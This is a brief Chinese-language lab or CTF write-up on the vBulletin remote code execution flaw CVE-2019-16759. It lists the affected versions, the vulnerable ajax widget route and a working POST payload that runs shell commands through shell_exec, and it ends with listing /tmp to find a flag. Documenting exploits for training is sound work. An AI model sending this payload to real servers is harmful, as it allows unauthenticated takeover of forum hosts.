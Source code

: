 # vbulletin 远程代码执行(CVE-2019-16759)
## 漏洞描述
vBulletin 是一款强大，灵活并可完全根据自己的需要定制的论坛程序套件。尽管是商业产品，但从市场份额和实际使用量上看，vBulletin还是当今最受欢迎的Web论坛软件包。 该漏洞允许攻击者在不拥有目标论坛账户的情况下，在运行vBulletin的服务器上执行Shell命令，是一个无需身份验证的远程代码执行漏洞。

## 影响版本
5.0.0 <= vBulletin <=5.5.4

## 利用流程
1.访问地址：http://118.193.36.37:55678
![image]()
2.访问存在漏洞的页面:
```
/index.php?routestring=ajax/render/widget_php
```
3.post传值：
```
widgetConfig[code] = echo shell_exec('cmd'); exit;
```
在cmd处填入想要执行的命令
4.使用命令 ls /tmp得到flag：

![image]()
